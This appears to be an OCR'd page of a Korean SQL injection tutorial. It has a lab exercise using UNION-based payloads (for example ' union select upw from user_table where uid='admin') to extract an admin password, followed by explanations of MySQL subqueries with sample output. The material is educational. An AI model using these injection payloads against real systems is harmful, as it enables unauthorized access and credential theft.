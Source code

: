 ## UNION 모듈 실습
다음은 사용자가 입력한 uid 와 upw 가 일치할 때 uid 를 출력하는 모듈로 , SQL Injection 취약점이 존재합니다

앞서 배운 UNION 구문을 사용해 admin 의 패스워드를 획득해보세요

```SQL
[Step 1]
모든 조건이 참(True)이 되도록 설정합니다.
uid=1' or '1
upw=1' or '1
[Step 2]
Union 구문을 사용해 admin의 upw를 출력합니다.
uid=' union select upw from user_table where uid='admin' or '
upw=
```

## Subquery
서브 쿼리는 한 쿼리 내에 또 다른 쿼리를 사용하는 것을 의미합니다
서브 쿼리를 사용하기 위해서는 쿼리 내에서 괄호 안에 구문을 삽입해야하며 , SELECT 구문만 사용할 수 있습니다

공격자는 서브쿼리를 통해 쿼리가 접근하는 테이블이 아닌 다른 테이블에 접근하거나 SELECT 구문을 사용하지 않는 쿼리문에서 SQL Injection 취약점이 발생할 때 SELECT 구문을 사용할 수 있습니다

Figure4 는 서브 쿼리를 사용해 데이터를 조회한 모습입니다
결과를 살펴보면 , 서브 쿼리가 실행되어 456 이 출력된 것을 확인할 수 있습니다

Figure4 서브쿼리 사용 예시

```SQL
mysql> SELECT 1,2,3,(SELECT 456); 
/*
+---+---+---+--------------+
| 1 | 2 | 3 | (SELECT 456) |
+---+---+---+--------------+
| 1 | 2 | 3 |          456 |
+---+---+---+--------------+
1 row in set (0.00 sec)
*/
```

## 서브 쿼리 사용 예시
서브 쿼리를 실제로 어떻게 사용하는지 알아보고 , 사용할 때 주의해야 할 점을 알아보겠습니다

### COLUMNS 절
SELECT 구문의 컬럼 절에서 서브 쿼리를 사용할 때에는 단일 행 과 단일 컬럼이 반환되도록 해야합니다

Figure4 는 복수의 행과 컬럼을 반환하는 서브 쿼리를 실행한 모습입니다
결과를 살펴보면 , 복수의 행 또는 컬럼을 반환하면서 에러가 발생하는 것을 확인할 수 있습니다

Figure4 서브 쿼리 사용 예시 - COLUMN

```SQL
mysql> SELECT username, (SELECT "ABCD" UNION SELECT 1234) FROM users;
ERROR 1242 (21000): Subquery returns more than 1 row
mysql> SELECT username, (SELECT "ABCD", 1234) FROM users;
ERROR 1241 (21000): Operand should contain 1 column(s)
```
